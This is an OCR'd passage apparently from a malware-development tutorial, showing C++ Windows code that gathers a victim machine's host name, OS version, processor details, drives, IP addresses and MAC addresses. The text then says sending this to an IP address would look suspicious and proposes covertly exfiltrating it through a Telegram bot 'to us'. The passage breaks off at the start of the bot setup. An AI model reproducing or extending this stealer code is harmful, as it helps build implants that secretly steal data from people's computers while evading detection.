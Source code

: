 ```cpp
// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;
}

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, 
  osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
}
```

But, if we send such information to some IP address it will seem strange and suspicious.    
What if instead you create a telegram bot and send information using it to us?

First of all, create simple telegram bot:    
